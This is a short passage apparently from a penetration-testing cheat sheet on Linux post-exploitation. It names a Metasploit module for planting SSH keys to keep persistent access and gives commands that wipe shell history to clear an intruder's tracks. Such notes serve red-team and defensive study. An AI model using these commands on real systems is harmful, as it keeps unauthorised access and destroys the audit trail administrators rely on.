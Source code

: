 - Via Metasploit :
```bash
use post/linux/manage/sshkey_persistence
```

## Clearing Tracks

You can clear the history with :
```bash
history -c
```

You can also :
```bash
cat /dev/null > ~/.bash_history
```

